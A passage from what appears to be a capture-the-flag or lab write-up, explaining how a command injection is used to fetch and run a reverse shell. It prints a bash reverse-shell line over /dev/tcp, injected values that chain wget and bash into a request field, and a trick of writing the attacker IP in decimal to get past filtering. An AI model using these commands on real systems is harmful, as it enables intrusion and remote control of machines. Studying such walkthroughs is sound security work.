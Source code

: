 
Our command injection is working, lets use this to download a reverse TCP shell onto the system and then execute it. We can do this by hosting a bash script that starts a reverse TCP shell connecting back to our listener, the code below is the simple bash script that will be downloaded onto the target (remember to change it for your IP).

```
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.61/4445 0>&1
```

We can host this using python the same way we hosted our javascript file. The target needs to download this bash script via our IP, but IP addresses violate the filtering rules. Luckily, we can use the decimal value of our IP address, since an IP address is just a long integer that we split with periods at every 8-bit for human readability. The online tool found at https://www.browserling.com/tools/ip-to-dec can easily convert our IP address into it’s decimal value.

![img](assets/request_shell.png)

In the screenshot of Burp Suite above, we have added ``%26wget%20168431165/shell`` to the end of the table field in our get request, with ‘%20’  being a space and the ‘168431165’ being the decimal representation of our IP. We can verify it has been downloaded by checking the python server logs.

![img](assets/python_server_get.png)

Now it’s a case of running a listener on the port we specified in the bash script, then just like before we can use burpsuite to modify the request however this time we add ``%26bash%20shell`` to our table field in order to run the bash script we just downloaded. If everything was successful we now have a reverse shell connection to the target.
